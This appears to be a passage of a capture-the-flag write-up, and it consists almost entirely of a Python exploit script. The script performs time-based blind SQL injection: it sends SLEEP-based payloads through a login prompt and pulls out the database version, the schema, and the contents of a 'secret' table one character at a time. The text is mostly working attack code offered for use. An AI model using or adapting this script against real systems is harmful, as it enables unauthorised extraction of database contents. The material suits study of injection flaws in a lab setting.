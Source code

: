 ```python

def exp():
    payload_template = "Liki4' AND if({exp},SLEEP(1),0);#"
    space = string.ascii_letters + string.digits + ' _:,$.'

    exp_template = "@@version RLIKE '^{c}'"
    exp_template = "DATABASE() RLIKE '^{c}'"
    exp_template = "(SELECT GROUP_CONCAT(table_name, ':', column_name) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA = DATABASE()) RLIKE '^{c}'"
    exp_template = "(SELECT binary GROUP_CONCAT(secret_string) FROM secret) RLIKE '^{c}'"

    print(exp_template)

    Flag = True

    data = ""

    while Flag:
        ori_stdout = sys.stdout
        for c in space:
            payload = payload_template.format(exp=exp_template.format(c=data+c))
            sys.stdin = io.StringIO(payload + '\n555_i_dont_know_password')
            res = sys.stdout = io.StringIO()

            signal.alarm(1)
            try:
                main()
                print("timeout")
            except:
                print("bingooo")
            
            output = str(res.getvalue())
            if "timeout" in output:
                continue
            if c == "$":
                Flag = False
                break
            if "bingooo" in output:
                data += c
                break
        sys.stdout = ori_stdout
        if Flag:
            print(data, end="\r")
        else:
            print(data)

if __name__ == "__main__":
    exp()
```

![](https://cdn.xyxsw.site/boxcnsStdHC5VmBylyx6S7hakEb.png)
